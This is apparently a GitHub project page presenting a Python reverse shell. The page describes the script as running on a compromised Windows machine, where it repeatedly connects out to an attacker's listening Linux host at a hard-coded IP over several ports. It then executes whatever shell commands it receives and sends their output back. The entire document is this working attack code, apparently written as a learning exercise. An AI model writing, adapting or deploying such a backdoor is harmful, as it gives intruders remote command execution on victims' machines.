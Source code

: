 # PythonScriptProject4
On a compromised window machine we have a python script that connects to a listening port on a linux machine. This python script will execute a command specified by our linux machine.


import time
import socket
import subprocess


def recvall(s):
   data=s.recv(1)
   s.setblocking(0)
   starter=time.time()
   print('loop start')
   while time.time()-starter<2: #time calls for 2 seconds
      try:
         newdata=s.recv(2048) 
         if newdata==0:#s.recieve 0 if connection is terminated. s.recieve throws an erorr if live but no new data
            break
      except socket.error: 
         pass
      else: 
         data+=newdata
         starter=time.time()#if it recieves data restarts
   s.setblocking(1)#when blocking is on s.recieve will hang until data is recieved
   return data.decode()


def myconn(s,dat):
   connected=False #will continue to try to make connections as long as connected=false
   while not connected:
      for port in dat[1]:
         try:
            print('try port',port)
            s.connect((dat[0],port))
         except socket.error:
            print('Could not connect') 
            time.sleep(1)
            continue 
         else:
            print('connected') 
            connected=True 
            break


def main(dat): #calls main with argument which is tuple
  
   while True:
      s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
      myconn(s,dat)
      time.sleep(1)
      cmd=recvall(s)
      if cmd == 'finn\n':
         s.close()
         break
   
      print(cmd)
      subby=subprocess.Popen(cmd,shell=True,stdin=subprocess.PIPE,stdout=subprocess.PIPE,stderr=subprocess.PIPE)
      
      output,error=subby.communicate()#subprocess.popen as a shell command the output is then captured with subby.communicate
      print(output)
      
      s.send(output)# Sends proccess output to listening socket on kali
   
      s.close()

main(('192.168.4.174',[432,567,34395]))
